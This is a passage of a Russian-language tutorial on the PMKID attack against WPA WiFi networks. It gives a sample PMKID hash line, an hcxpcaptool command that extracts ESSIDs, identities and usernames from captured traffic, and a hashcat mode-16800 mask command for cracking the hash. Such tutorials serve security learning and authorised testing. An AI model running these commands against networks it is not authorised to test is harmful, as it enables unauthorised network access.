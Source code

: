 	Содержимое записанного файла будет выглядеть следующим образом:

	```bash
	2582a8281bf9d4308d6f5731d0e61c61*4604ba734d4e*89acf0e761f4*ed487162465a774bfba60eb603a39f3a
	```
	
	Столбцы следующие (все в шестнадцатеричном кодировании):	
	- PMKID	
	- MAC AP	
	- MAC Station	
	- ESSID

	> Примечание: Хотя это и не обязательно, рекомендуется использовать опции -E -I и -U для hcxpcaptool. Затем мы можем использовать эти файлы для загрузки в hashcat. 
	> - -E извлекает возможные пароли из WiFi-трафика (дополнительно в этот список будут включены ESSID)
	> - -I извлекает идентификаторы из WiFi-трафика
	> - -U извлекает имена пользователей из WiFi-трафика
	>
	> ```bash
	> ./hcxpcaptool -E essidlist -I identitylist -U usernamelist -z test.16800 test.pcapng
	> ```

3. Запустим hashcat, для взлома.

	В принципе, мы можем атаковать этот хэш, как и любой другой тип хэша. Хэш-режим, который нам нужно использовать, равен 16800.
	
	```bash
	./hashcat -m 16800 test.16800 -a 3 -w 3 '?l?l?l?l?l?lt!'
	```
